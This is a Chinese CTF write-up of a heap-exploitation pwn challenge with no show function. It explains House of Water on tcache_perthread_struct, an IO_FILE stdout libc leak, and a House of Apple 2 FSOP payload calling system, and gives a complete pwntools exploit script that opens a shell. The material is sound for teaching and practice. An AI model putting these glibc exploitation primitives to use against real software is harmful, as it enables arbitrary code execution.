

我们在10月10日-10月17日日举办了面向校内的CTF欢乐赛，学长出了一道pwn压轴，其中是一个经典菜单题，但是没有show函数，本文通过利用house of water和IO_FILE攻击来实现解题。
无show堆题 House Of Water
攻击步骤
在 how2heap 中的演示代码
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>
int main(){
void *_ = NULL;
setbuf(stdin,NULL);
setbuf(stdout,NULL);
setbuf(stderr,NULL);
void *fake_size_lsb = malloc(0x3d8);
void *fake_size_msb = malloc(0x3e8);
free(fake_size_lsb);
free(fake_size_msb);
void *metadata = (void *)((long) (fake_size_lsb & -(0xfff)));
void *x[7];
for(int i = 0 ; i < 7 ; i ++){
x[i] = malloc(0x88);
}
void *unsorted_start = malloc(0x88);
_ = malloc(0x18);
void *unsorted_middle = malloc(0x88);
_ = malloc(0x18);
void *unsorted_end = malloc(0x88);
_ = malloc(0x18);
_ = malloc(0xf000);
void *end_of_fake = malloc(0x18);
*(long *)end_of_fake = 0x10000;
*(long *)(end_of_fake + 0x8) = 0x20;
for(int i = 0 ; i < 7 ; i ++){
free(x[i]);
}
*(long *)(unsorted_start - 0x18) = 0x31;
free(unsorted_start - 0x10);
*(long *)(unsorted_start - 0x8) = 0x91;
*(long *)(unsorted_end - 0x18) = 0x21;
free(unsorted_end - 0x10);
*(long *)(unsorted_start - 0x8) = 0x91;
free(unsorted_end);
free(unsorted_middle);
free(unsorted_start);
*(unsigned long *)unsorted_start = (unsigned long)(metadata+0x80);
*(unsigned long *)(unsorted_end+0x8) = (unsigned long)(metadata+0x80);
//now this can be the fake chunk
void *meta_chunk = malloc(0x288);
assert(meta_chunk == (metadata+0x90));
}

主要是攻击 tcache_perthread_struct 在里面伪造一个 size为 0x10001的fake_chunk,然后将他放到 unsortedbin 中申请出来，可以控制tcache
- 释放的 0x3e0 和 0x3f0 两个堆块是为了构造一个 0x10001 这样的大小块，这是因为 tcache_perthread_struct 第一个值会标记每个 tcachebin 内的堆块数量，这样就构造出了一个 size 样式的东西，方便我们进行 fake chunk 的创建。
- 19-22 行：创建 7 个 chunk，很明显是为了填满 tcachebin
- 24-33 行：间隔创建三个 chunk，并且增加间隔防止合并，这三个 chunk 全部在 unsortedbin 的位置。然后创建了一个巨大的 0xf000 的 chunk，用来填充到 0x10001，目的是为了让最开始讲的 tcache_perthread_struct 那个 0x10001 作为 size 是合法的。
- 35-37 行：创建 0x20 大小的 chunk，并且伪造 prev_size 和下一个 chunk 的 size：0x20；
- 39-41 行：填满 tcachebin
- 43-45 行：在 unsorted_start 的上面设置了一个 0x31 的堆块并且释放，释放掉之后由于进入 tcachebin 会加入一个验证的 key，这个 key 会覆盖掉原本 unsorted_start 的 size，所以得还原。
- 47-49 行：同理
- 在刚刚两个步骤下，我们可以知道在 tcache_perthread_struct 中，0x20 大小的会在 tcachebin 的第一个位置，而 0x30 大小的会在 tcachebin 的第二个位置，于是就造成了 0x10001 这个值下面刚好是这么两个地址，这样的话，也就是说假设 0x10001 进入 bin，那么它的 fd 指针将指向 unsorted_end，而 bk 指针将指向 unsorted_start
- 51-53 行：释放了三个 chunk，他们仨会进 unsorted bin，这里 unsorted bin 里会变成：
unsorted_start->unsorted_middle->unsorted_end - 55-56 行：这一步是将之前讲到的 0x10001 这个堆块链接上去，替换掉 unsorted_middle。，可以看到将 unsorted_start 的 fd 指针变成了 fake_chunk，unsorted_end 的 bk 指针也变成了 fake_chunk，而刚刚提到了，fake_chunk 的 fd 指针是 unsorted_end，bk 指针是 unsorted_start，和 unsorted_middle 是一样的，所以完全可以过 unsorted bin 检测。在这一步之后，unsorted bin 变成了
unsorted_start->fake_chunk_unsorted_end。很明显，如果这时候我们对 fake_chunk 里面踩一个 libc 地址，它会默认跑到 tcachebin 中去。 - 59 行：这一步的想法是进行切割，如果 unsorted bin 里面没有合适大小的块，则它会按顺序分配到 smallbin 或者 largebin 中，然后再进行切割，很明显这里会把 unsorted_start 和 unsorted_end 放入 small bin，而 fake chunk 进入 large bin。所以只要选择一个小于 0x10000 的块，这样在放入各自的 bin 之后，由于只有 fake chunk 进入了 large bin，它一定会在某两个位置出现 libc 地址，而这两个位置会变成 tcache bin 的两个。在此之后，如果申请相应大小的 tcache bin 的 chunk，则会在 libc 上建立相应的堆块。
house of water后可以在 tcache_perthread_struct 中放一个libc地址，没有show函数的情况下要打 io_file
其中 _IO_2_1_stdout_ 的 _flags 是这样的：_IO_MAGIC|_IO_IS_FILEBUF|_IO_CURRENTLY_PUTTING|_IO_LINKED|_IO_NO_READS | _IO_UNBUFFERED |_IO_USER_BUF
我们在使用的时候，可以将 _flags调成 0xfbda18**，从上面可以找到含义，然后将 _IO_write_base 改成想要泄露的位置，再将 _IO_write_ptr 改为结束位置，就可以在下一次调用 puts 或者 printf 的时候泄露出来想要的东西了。
一般如果想要泄露 libc 的话 payload 会写 p64(0xfbad1800)+p64(0x0)*3+'\x00'
这个也可以用 fastbin attack 来做，因为 stdout 的上面是 stderr，里面会有 0x7f。
将flag设置为 0xfbad1800 ，目的是让他冲掉缓冲区，将内容输出出来
然后 read_ptr,read_end,read_base这三项随意，设置为0，同时修改好 write_base write_ptr 和 write_end
然后他会输出从 write_base 到 write_ptr 中的内容。
题目分析
int __cdecl main(int argc, const char **argv, const char **envp)
{
int v3; // ebx
int v5; // [rsp+8h] [rbp-28h] BYREF
unsigned int v6; // [rsp+Ch] [rbp-24h] BYREF
unsigned int v7; // [rsp+10h] [rbp-20h] BYREF
int nbytes[7]; // [rsp+14h] [rbp-1Ch]
*(_QWORD *)&nbytes[1] = __readfsqword(0x28u);
init(argc, argv, envp);
while ( 1 )
{
menu();
__isoc99_scanf("%d", &v5);
switch ( v5 )
{
case 1:
printf("idx: "); // add
__isoc99_scanf("%d", &v6);
if ( v6 >= 0x20 )
goto LABEL_10;
printf("size: ");
__isoc99_scanf("%d", &v7);
v3 = v6;
*((_QWORD *)&array + v3) = malloc((int)v7);
size[v6] = v7;
break;
case 2:
printf("idx: ");
__isoc99_scanf("%d", &v7);
if ( v7 >= 0x20 )
goto LABEL_10;
free(*((void **)&array + (int)v7));
break;
case 3:
printf("idx: ");
__isoc99_scanf("%d", &v7);
if ( v7 >= 0x20 )
goto LABEL_10;
puts("Show is forbidden!");
break;
case 4:
printf("idx: ");
__isoc99_scanf("%d", &v6);
if ( v6 < 0x20 )
{
printf("offset: ");
__isoc99_scanf("%d", &v7);
if ( size[v6] >= (signed int)v7 && (v7 & 0x80000000) == 0 )
{
nbytes[0] = size[v6] - v7;
printf("content: ");
read(0, (void *)(*((_QWORD *)&array + (int)v6) + (int)v7), (unsigned int)nbytes[0]);
}
else
{
puts("offset error");
}
}
else
{
LABEL_10:
puts("idx error");
}
break;
case 5:
exit(0);
default:
continue;
}
}
}
show函数被禁用，只有uaf
思路就是先用house of water控制tcache，然后打iofile_leak 拿到libc地址，然后再用house of apple打
p = process("./pwn" , aslr = False) 关aslr便于调试
首先添加堆块0x3e8,0xf8之后依次释放，在tcache_perthread_struct上面伪造一个size 0x10001
add(0, 0x3d8)
add(1, 0x3e8)
dele(0)
dele(1)
然后查看 tcache_perthread_struct

然后我们计划填满0x90的tcache链，这样再申请最终大小为0x90堆块并释放后就会进入unsortedbin
for i in range(7):
add(0x1f-i, 0x88)
由于house of water需要在 unsortedbin_start的那个堆块上面伪造一个0x31大小的堆块，在 unsortedbin_end 上面伪造一个 0x21大小的堆块，为了能释放这两个，我们需要提前埋好指针，利用uaf来拿到对应的索引。
我们可以计算一下
unsorted_bin start: 0x90
0x10 header
0x80 data
block: 0x20
0x10 header
0x10 data
unsorted_bin middle: 0x90
0x10 header
0x80 data
block: 0x300
0x10 header
0x300 data
unsorted_bin end: 0x90
0x10 header
0x80 data
block: 0x20
0x10 header
0x10 data
total: 0x210
然后我们部署
add(2, 0x420) # the smaller one
add(3, 0x440) # pass to the end ;; this is fake header pointer 0x21
add(4, 0x420) # ;; this is fake header pointer 0x31
dele(4)
dele(3)
dele(2)
然后构造 unsortedbin_start unsortedbin_middle unsortedbin_end 三个堆块，并在中间构造好block防止合并
add(5, 0x430) # offset 0x10
# 开始布置空间
add(6, 0x80) # unsorted_bin start 0x55555555c290
add(7, 0x10) # block
add(8, 0x80) # unsorted_bin middle
add(9, 0x300) # block
add(10, 0x80) # unsorted_bin end
add(11, 0x10) # block
我们首先申请了2号，大小是0x420+0x10的header，在add5的时候，申请了0x430+0x10的堆块，这样错位了0x10，当我们add3 的0x440+0x10的堆块的时候，序号3正好对应了 unsortedbin_start - 0x10的位置，这样就可以在后续拿到伪造 0x31的fakechunk的索引。 另一个可以拿到0x21的fakechunk的索引
最后添加一个padding来满足 tcache_perthread_struct下面的 0x10001 的fakechunk
并编辑好他的伪造的size和prev_size位
add(12, 0xe870 + 0x60)
add(13, 0x20)

现在我们通过释放start 和end前对应的fakechunk，来给我们 tcache_perthread_struct中的fakechunk装修一个fd和bk

在释放那两个fakechunk后
原来的 unsortedbin_start 和 unsortedbin_end 的 size 位会由于tcache而被放入 tcache_key

因此我们需要手动修复
edit(3, flat(
0, 0x91
), 0)
edit(4, flat(
0, 0x91
), 0)
这样我们再看 tcache_perthread_struct

发现我们伪造了一个 fd和bk
fd指向的是 unsortedbin_start bk指向的是 unsortedbin_end
因此下一步的目的就是将start middle end依次释放，进入到Unsortedbin中，然后将start的bk改成伪造的fakechunk ，将end的fd改成fakechunk（这里弄反了，但是问题不大，能链上就行）
我们知道，我们的fakechunk的低16位是 b080 ，因此可以用部分写来修改，这里需要爆破，有 1/16概率。
这样我们就成功将 unsortedbin_middle 替换为我们伪造的 fakechunk

并且在tcache_perthread_struct下面也有了libc地址。
然后申请堆块后，就可以控制tcache了
例如我们申请 add(14, 0xa0) ，就可以控制0x30这条链

他就会将 unsortedbin_start 和 unsortedbin_end 放入 smallbin中，然后从中间的fakechunk切割0xb0大小，于是我们就控制了tcache
然后改 stdout打iofile_leak

可以使用
p _IO_2_1_stdout_
查看 stdout

edit(15,flat(
0xfbad1800,
0,0,0,b'\x00\x90'
),0)
选一个在libc地址空间中的内存，然后leak
最后就是打iofile组合攻击啦，比如可以用house of apple。
比如在libc地址上面就有可以写的地址，让我们部署fake_io_file

最终完整exp
from pwn import *
arch = "amd64"
# log_level = "debug"
remote_ip = ""
remote_port = ""
libc_path = "./libc.so.6"
elf_path = "./pwn"
context.arch = arch
# context.log_level = log_level
context.terminal =['tmux','splitw','-h']
exe = ELF(elf_path)
libc = ELF(libc_path)
context.log_level = "debug"
def d():
gdb.attach(p)
pause()
def cmd(i, prompt="5. exit"):
p.sendlineafter(prompt, i)
def add(idx, size):
cmd('1')
p.sendlineafter("idx: ", str(idx))
p.sendlineafter("size: ", str(size))
#......
def edit(idx, payload, offset):
cmd('4')
p.sendlineafter("idx: ", str(idx))
p.sendlineafter("offset: ", str(offset))
p.sendafter("content: ", payload)
#......
def show(idx):
cmd('3')
p.sendlineafter("idx: ", str(idx))
#......
def dele(idx):
cmd('2')
p.sendlineafter("idx: ", str(idx))
#......
def exit_():
cmd('5')
def tcache_safelink(target_addr, tcache_addr):
return target_addr ^ (tcache_addr >> 12)
def csu_gadget(part1, part2, jmp2, arg1 = 0, arg2 = 0, arg3 = 0):
payload = p64(part1) # part1 entry pop_rbx_pop_rbp_pop_r12_pop_r13_pop_r14_pop_r15_ret
payload += p64(0) # rbx be 0x0
payload += p64(1) # rbp be 0x1
payload += p64(jmp2) # r12 jump to
payload += p64(arg3) # r13 -> rdx arg3
payload += p64(arg2) # r14 -> rsi arg2
payload += p64(arg1) # r15 -> edi arg1
payload += p64(part2) # part2 entry will call [r12 + rbx * 0x8]
payload += b'A' * 56 # junk 6 * 8 + 8 = 56
return payload
def house_of_some_read(read_from, len, _chain):
fake_IO_FILE = IO_FILE_plus_struct()
fake_IO_FILE.flags = 0x8000 | 0x40 | 0x1000
fake_IO_FILE.fileno = 0
fake_IO_FILE._mode = 0
fake_IO_FILE._IO_write_base = read_from
fake_IO_FILE._IO_write_ptr = read_from+len
fake_IO_FILE.chain = _chain
fake_IO_FILE.vtable = libc.sym['_IO_file_jumps'] - 0x8
return bytes(fake_IO_FILE)
def house_of_some_write(write_from, len, _chain):
fake_IO_FILE = IO_FILE_plus_struct()
fake_IO_FILE.flags = 0x8000 | 0x800 | 0x1000
fake_IO_FILE.fileno = 1
fake_IO_FILE._mode = 0
fake_IO_FILE._IO_write_base = write_from
fake_IO_FILE._IO_write_ptr = write_from + len
fake_IO_FILE.chain = _chain
fake_IO_FILE.vtable = libc.sym['_IO_file_jumps']
return bytes(fake_IO_FILE)
def house_of_apple2_all_in_one(_IO_wfile_jumps, addr, RIP): # 算好偏移直接all in one 总长度0x240
# 0xd8一个_IO_FILE 0xe0一个wide_data
"""
调用流为_IO_wfile_overflow->_IO_wdoallocbuf->_IO_WDOALLOCATE->Your RIP
_flags设置为~(2 | 0x8 | 0x800)，如果不需要控制rdi，设置为0即可；如果需要获得shell，可设置为 sh;，注意前面有两个空格
"""
payload = b""
# wide_data
wide_data_entry = addr + 0xe0 # 0x8 block to before
wide_data_vtable_entry = addr + 0xe0 + 0xe0 # offset of wide_data_vtable
# main
from pwncli import IO_FILE_plus_struct
fake_IO_FILE = IO_FILE_plus_struct()
fake_IO_FILE.flags = 0x68732020
fake_IO_FILE._mode = 0
fake_IO_FILE._IO_write_ptr = 1
fake_IO_FILE._IO_write_base = 0
fake_IO_FILE.vtable = _IO_wfile_jumps
fake_IO_FILE._wide_data = wide_data_entry
fake_IO_FILE._lock = wide_data_entry
fake_IO_FILE = bytes(fake_IO_FILE)
payload += fake_IO_FILE
# wide_data 这里只要控制vtable即可
pad = flat([
b'\x00'*0xe0,
wide_data_vtable_entry
])
payload += pad
# wide_data_vtable
"""_wide_data->_wide_vtable->doallocate设置为地址C用于劫持RIP，即满足(B + 0x68) = C"""
payload += p64(RIP)*0x10
return payload
def pwn():
add(0, 0x3d8)
add(1, 0x3e8)
dele(0)
dele(1)
for i in range(7):
add(0x1f-i, 0x88)
"""
这里需要overlap能够修改heap header
比较简单的一种思路就是申请一个大的 后续错位0x10就行(block_chunk不要) 要注意所有堆块都要能被top_chunk回收
算算数：
unsorted_bin start: 0x90
0x10 header
0x80 data
block: 0x20
0x10 header
0x10 data
unsorted_bin middle: 0x90
0x10 header
0x80 data
block: 0x300
0x10 header
0x300 data
unsorted_bin end: 0x90
0x10 header
0x80 data
block: 0x20
0x10 header
0x10 data
total: 0x210
"""
add(2, 0x420) # the smaller one
add(3, 0x440) # pass to the end ;; this is fake header pointer 0x21
add(4, 0x420) # ;; this is fake header pointer 0x31
dele(4)
dele(3)
dele(2)
# 开始错位0x10
add(5, 0x430) # offset 0x10
# 开始布置空间
add(6, 0x80) # unsorted_bin start 0x55555555c290
add(7, 0x10) # block
add(8, 0x80) # unsorted_bin middle
add(9, 0x300) # block
add(10, 0x80) # unsorted_bin end
add(11, 0x10) # block
# offset 0x10000 to add a block
add(12, 0xe870 + 0x60)
add(13, 0x20)
edit(13, flat(
0x10000, 0x20 # need 0x20
), 0)
for i in range(7):
dele(0x1f-i) # fill tcache first
# edit header to make tache great again
# dele tcache first in order to just fix up header not pointer
edit(5, flat(
b'a'*0x420,
0, 0x21
), 0)
edit(9, flat(
b'a'*0x2f0,
0, 0x31
), 0)
dele(3)
dele(4)
# fix up header
edit(3, flat(
0, 0x91
), 0)
edit(4, flat(
0, 0x91
), 0)
# dele unsorted_bin
dele(6) # dele unsorted_bin end
dele(8) # dele unsorted_bin middle
dele(10) # dele unsorted_bin start
# overwrite the start fd lsb burp one byte
edit(6, flat(
b'\x80\xb0'
), 8)
# end bk lsb
edit(10, flat(
b'\x80\xb0'
), 0)
add(14, 0xa0)
# stdout 0x15555541b780 p &_IO_2_1_stdout_
edit(14, flat(
0,
b'\x80\xb7',
), 0)
d()
add(15, 0x28)
edit(15,flat(
0xfbad1800,
0,0,0,b'\x00\x90'
),0)
p.recvuntil(p64(0x7fffffff00000001))
leak_libc = u64(p.recv(6).ljust(8, b"\x00"))
libc_base = leak_libc - 0x1d807b
success(hex(libc_base))
#p _IO_2_1_stdout_
# write_base 0x15555541b803
# write_ptr
# environ = libc_base + libc.sym['__environ']
# house of apple
write_addr = libc_base + 0x21c000 + 0x400
wfile_jumps = 0x2170c0 + libc_base
system_addr = libc_base + libc.sym['system']
sleep(1)
edit(14,flat(
write_addr
),0x38)
# initial_quick+224 serve as the writeable addr
payload = house_of_apple2_all_in_one(wfile_jumps, write_addr, system_addr)
success(payload)
success(len(payload))
# block 1
add(16, 0x80)
edit(16, payload[:0x80],0)
# block 2
edit(14,flat(
write_addr + 0x80
),0x38)
add(17, 0x80)
edit(17, payload[0x80:0x80*2], 0)
# block 3
edit(14,flat(
write_addr + 2 * 0x80
),0x38)
add(18, 0x80)
edit(18, payload[0x80*2:0x80*3], 0)
# block 4
edit(14,flat(
write_addr + 3 * 0x80
),0x38)
add(19, 0x80)
edit(19, payload[0x80*3:0x80*4], 0)
#block 5
edit(14,flat(
write_addr + 4 * 0x80
),0x38)
add(20, 0x80)
edit(20, payload[0x80*4:], 0)
#IO_list_all
iolistall_addr = libc_base + libc.sym['_IO_list_all']
# success(hex(iolistall_addr))
edit(14,flat(
iolistall_addr
),0x38)
add(21,0x80)
edit(21,flat(
write_addr
),0)
exit_()
success(f"write_addr:{hex(write_addr)}")
# gdb.attach(p)
# pause()
# while True:
# try:
# p = process("./pwn" , aslr = False)
# pwn()
# p.interactive()
# exit()
# except KeyboardInterrupt:
# print("Exiting...")
# exit()
# except:
# p.close()
# continue
p = process("./pwn", aslr = False)
pwn()
p.interactive()
参考
http://www.longque.xyz/index.php/archives/45/